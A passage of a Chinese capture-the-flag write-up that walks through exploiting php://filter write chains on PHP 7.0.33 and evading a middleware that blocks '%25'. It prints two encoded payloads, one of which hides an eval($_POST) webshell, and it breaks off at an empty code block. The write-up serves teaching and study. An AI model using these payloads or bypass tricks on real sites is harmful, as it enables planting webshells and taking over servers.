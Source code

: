 因为这个php版本是7.0.33所以`string.strip_tags`这个过滤器不能用，不然的话可以利用这样的payload:`php://filter/write=string.strip_tags|dechunk/resource=%3f>%31%0a%3c%0a%32%36%0a%3f%70%68%70%20%65%76%61%6c%28%24%5f%50%4f%53%54%5b%31%5d%29%3b%65%78%69%74%3b`

为啥不能用嘞，因为7.0.33版本有个bug，用`string.strip_tags`会出现segment fault

后来我就想到了，利用segment fault，php不会删除临时文件，所以就上传文件，然后爆破文件名，但是后来题目弄了个提醒：`no brute force` 心态裂开

于是我们得找其他的方法，

这下彻底没招了，只能去看源代码了，在分析代码的时候发现：

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200802191228.png)

php会对filter进行urldecode，美滋滋那么payload出来了

payload:

```
php://filter/write=%2563%256f%256e%2576%2565%2572%2574%252e%2562%2561%2573%2565%2536%2534%252d%2565%256e%2563%256f%2564%2565|%2573%2574%2572%2569%256e%2567%252e%2572%256f%2574%2531%2533|%2563%256f%256e%2576%2565%2572%2574%252e%2562%2561%2573%2565%2536%2534%252d%2564%2565%2563%256f%2564%2565/resource=1%09%0Fc%9DCm0%A3.%A0%FBq%2BS%82%1FQ%28d%8D%1C%07b8%9C%A0%FB%0An
```

但是新的问题出现了，这个网站的中间件会ban`%25`，送出题人一句mmp。

跨过千山万水来到这里，结果还有新的拦路虎。

一般遇到服务器中间件拦截%25的时候，我们可以试试php与中间件对数据解析的差异来绕过，或者试试http请求走私，测试后发现两种都不行

服务器过滤了%25，测试下发现这是是针对参数值的，如把%25放到参数名那里就是很ok的，然后我们就知道他是针对参数检测的，如果参数过多它还能检测吗

于是有：

```
```